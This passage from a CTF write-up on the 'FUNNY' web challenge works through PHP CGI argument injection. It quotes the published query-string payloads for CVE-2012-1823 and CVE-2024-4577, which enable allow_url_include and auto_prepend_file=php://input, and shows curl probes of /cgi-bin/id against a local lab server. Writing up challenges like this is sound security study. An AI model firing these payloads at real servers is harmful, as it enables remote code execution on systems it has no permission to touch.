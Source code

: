Hmm... I wonder if we can **inject arbitrary arguments**. If we can, it opens a lot of options to possibly exfiltrate the flag.

After researching about "PHP CGI argument injection", we can see CVE-2024-4577 found by researcher Orange Tsai, as well as CVE-2012-1823.

In CVE-2024-4577, it only affects Windows machine with PHP CGI, default XAMPP config, and a very specific system locale, which is completely useless in our case.

In CVE-2012-1823, it only affects PHP version before 5.3.12 or before 5.4.2. In our case, the PHP version is 8.3.10, which is not affected:

```shell
┌[siunam♥Mercury]-(~/ctf/TFC-CTF-2024/Web/FUNNY)-[2024.08.05|16:40:44(HKT)]
└> curl -v http://localhost/                
[...]
< HTTP/1.1 200 OK
< Date: Mon, 05 Aug 2024 08:47:59 GMT
< Server: Apache/2.4.62 (Unix)
< X-Powered-By: PHP/8.3.10
[...]
```

However, both of them have a very similar payload:

```
CVE-2012-1823:
/?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp%3a//input

CVE-2024-4577:
/?%ADd+allow_url_include%3d1+%ADd+auto_prepend_file%3dphp://input=null
```

As you can see, **we can inject arbitrary arguments via the query delimiter (`?`)**!

Let's try it!

```shell
┌[siunam♥Mercury]-(~/ctf/TFC-CTF-2024/Web/FUNNY)-[2024.08.05|16:58:15(HKT)]
└> curl http://localhost/cgi-bin/id
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>500 Internal Server Error</title>
</head><body>
[...]
```

```shell
[Mon Aug 05 08:58:19.964017 2024] [cgi:error] [pid 101:tid 105] [client 172.17.0.1:55986] malformed header from script 'id': Bad header: uid=1000(www) gid=1000(www) gr
172.17.0.1 - - [05/Aug/2024:08:58:19 +0000] "GET /cgi-bin/id HTTP/1.1" 500 600 "-" "curl/8.8.0"
```

```shell
┌[siunam♥Mercury]-(~/ctf/TFC-CTF-2024/Web/FUNNY)-[2024.08.05|16:58:19(HKT)]
└> curl http://localhost/cgi-bin/id?-u
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>500 Internal Server Error</title>
</head><body>
[...]
```
